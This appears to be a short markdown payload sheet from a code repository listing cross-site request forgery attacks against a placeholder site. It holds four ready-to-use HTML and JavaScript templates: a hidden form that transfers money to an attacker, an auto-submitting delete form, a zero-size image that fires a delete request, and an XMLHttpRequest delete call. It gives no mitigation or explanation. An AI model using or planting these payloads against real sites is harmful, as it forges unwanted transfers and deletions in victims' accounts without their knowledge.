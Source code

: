 # Cross-Site Request Forgery (CSRF) Payloads

## HTML Form CSRF
```html
<form action="http://target.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit" value="Click me">
</form>
```

## Auto-submit CSRF
```html
<form id="csrf" action="http://target.com/delete" method="POST">
  <input type="hidden" name="id" value="123">
</form>
<script>document.getElementById('csrf').submit();</script>
```

## Image-based CSRF (GET)
```html
<img src="http://target.com/delete?id=123" width="0" height="0">
```

## AJAX CSRF
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://target.com/api/delete');
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send('{"id":"123"}');
</script>
```